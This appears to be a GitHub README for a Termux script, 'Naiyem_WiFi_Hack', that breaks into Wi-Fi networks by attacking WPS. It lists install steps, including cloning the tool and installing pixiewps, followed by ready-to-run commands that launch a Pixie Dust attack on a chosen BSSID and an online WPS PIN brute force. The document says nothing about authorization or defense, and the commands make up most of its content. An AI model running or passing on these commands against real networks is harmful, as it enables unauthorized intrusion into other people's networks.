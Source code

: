 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="[https://i.ibb.co/K74g0SC/hulu.jpg](https://i.ibb.co/5cPyw37/IMG-20240219-WA0007.jpg)"></p>

### Installation :

```bash
$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/nayembai/Naiyem_WiFi_Hack

$ cd Naiyem_WiFi_Hack
$ chmod +x Muhammad_Naiyem.py
$ sudo python Muhammad_Naiyem.py --help
$ sudo python Muhammad_Naiyem.py -i wlan0 -K
```

#### Example : `sudo python Naiyem_WiFi_Hack/_Naiyem.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Muhammad_Naiyem.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Muhammad_Naiyem.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Muhammad_Naiyem.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
